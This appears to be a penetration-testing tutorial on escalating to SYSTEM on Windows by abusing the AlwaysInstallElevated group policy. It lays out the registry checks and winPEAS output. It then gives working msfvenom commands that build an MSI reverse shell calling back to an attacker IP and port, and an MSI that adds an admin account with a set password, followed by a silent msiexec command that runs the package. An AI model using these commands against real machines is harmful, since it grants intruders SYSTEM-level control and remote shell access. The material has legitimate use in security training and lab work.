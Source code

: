# Options Install Windows
## Privilege escalation with `AlwaysInstallElevated` group policy
MSI files are package files used to install applications. These files run with the permissions of the user trying to install
them. Windows allows for these installers to be run with elevated (i.e. admin) privileges.

Windows can allow low privilege users to install *Microsoft Windows Installer Package (MSI)* with **`SYSTEM`** privileges by **AlwaysInstallElevated** group policy.
So, we can generate a malicious MSI file which contains a reverse shell.
### Prerequisites
The catch is that two Registry settings must be enabled for this to work (value is 0x1), then users of **any privilege** can install (execute) `*.msi` files as **NT AUTHORITY\SYSTEM**.

The **AlwaysInstallElevated** value must be set to 1 for both: 
- the local machine:
```console
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
- the current user:
```console
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
If either of these are missing or disabled, the exploit will not work.
### Exploitation
1. Use **winPEAS** to see if both registry values are set:
```console
> .\winPEASany.exe quiet windowscreds
����������͹ Checking AlwaysInstallElevated
 https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```
2. Alternatively, verify the values manually:
```console
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
```console
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
3. Create a new reverse shell with msfvenom, this time using the **msi** format, and save it with the **.msi** extension:
```console
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.7 LPORT=8888 -f msi -o reverse.msi
```
or
```console
# msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
# msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
4. Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:
```console
> msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
If you have a meterpreter session you can automate this technique using the module **`exploit/windows/local/always_install_elevated`**
